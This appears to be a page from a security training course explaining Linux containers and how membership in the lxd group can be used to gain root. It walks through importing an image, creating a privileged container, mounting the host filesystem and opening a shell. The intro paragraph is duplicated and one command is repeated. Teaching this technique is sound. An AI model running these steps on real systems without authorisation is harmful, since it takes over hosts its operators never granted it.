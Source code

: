 Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

Isolation and virtualization are essential because they help to manage resources and security aspects as efficiently as possible

---

## Linux Containers

####   
Linux Privilege Escalation   

1. Page 14
2. LXD

# Containers

---

Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

Isolation and virtualization are essential because they help to manage resources and security aspects as efficiently as possible. For example, they facilitate monitoring to find errors in the system that often have nothing to do with newly developed applications. Another example would be the isolation of processes that usually require root privileges. Such an application could be a web application or API that must be isolated from the host system to prevent escalation to databases.

---

## Linux Containers

Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. LXC is very popular due to its ease of use and has become an essential part of IT security.

By default, `LXC` consume fewer resources than a virtual machine and have a standard interface, making it easy to manage multiple containers simultaneously. A platform with `LXC` can even be organized across multiple clouds, providing portability and ensuring that applications running correctly on the developer's system will work on any other system. In addition, large applications can be started, stopped, or their environment variables changed via the Linux container interface.

#### Linux Daemon

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group. We can find this out with the following command:

```shell
$ id
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

```shell
cd ContainerImages
ubuntu-template.tar.xz
```

```shell
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
```

```shell
lxc image list
```

```shell
lxc init ubuntutemp privesc -c security.privileged=true
```

```shell
lxc init ubuntutemp privesc -c security.privileged=true
```

```shell
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

```shell
lxc start privesc
```

```shell
lxc exec privesc /bin/bash
ls -l /mnt/root
```



